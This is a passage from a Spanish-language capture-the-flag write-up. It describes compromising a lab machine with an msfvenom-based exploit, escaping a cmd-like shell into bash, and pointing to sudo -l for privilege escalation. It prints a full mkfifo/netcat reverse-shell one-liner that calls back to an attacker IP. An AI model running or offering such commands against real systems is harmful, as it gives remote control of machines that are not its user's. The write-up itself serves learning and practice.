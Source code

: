 Ya con todo listo, lo ejecutamos con una consola aparte en escucha con ayuda de netcat. Vemos cómo inmediatamente obtenemos la cmd en el sistema, habiendola comprometido exitosamente.

![19]

Comprometiendo el sistema original
==================================================================================================================
Ya que vimos que el script funciona, comprometemos el sistema original solo cambiando la IP destino:

![20]

Recordemos que este sistema es un Linux, no un Windows. Me pregunto si de casualidad me encuentro dentro de un docker, así que muestro la IP para darme cuenta de que no es el caso:

![21]

Nota: Obtenemos una consola que asimila a una cmd dado que el payload de msfvenom lo generamos para este sistema (Windows), solo sería cuestión de modificarlo para que retorne una reverse shell en un sistema Linux y volver a ejecutar el exploit. Como desconocía esto, tardé un poco en escapar de la consola devuelta para poder entrar en una **bash**.

Obteniendo una bash
==================================================================================================================
En este momento no entiendo cómo es que tengo una cmd si se supone que se trata de un sistema Linux, así que trato de irme a la raíz para corroborar esto último con la estructura de directorios:

![22]

Dado que existe un directorio **/bin**, trato de spawnear una bash con ayuda de una llamada a este binario. Después de un par de intentos, varios enters y whoami's, logro obtener la bash.

![23]

Sin embargo, se trata de una bash inestable, por lo que inmediatamente ejecuto un comando que me devolverá una reverse shell ya como bash:

    rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.69.66 443 >/tmp/f

![24]

![25]

**Nota:** Para escalar privilegios en este sistema, solo basta con ejecutar un listado de permisos sudo:

    sudo -l

Y este nos regresará que cualquier usuario puede ejecutar como root una utilidad personalizada dentro del directorio del usuario anansi. Para ver este paso, ir al último apartado de esta guía.

Como no me preocupé por hacer primero una enumeración completa de vectores para escalar privilegios, terminé haciendo un paso que era en absoluto innecesario, sin embargo, me permitió aprender sobre Buffer Overflow en binarios de Linux, y ahora quiero explicarlo para que quede registro de cómo poder usar este sistema para practicarlo.
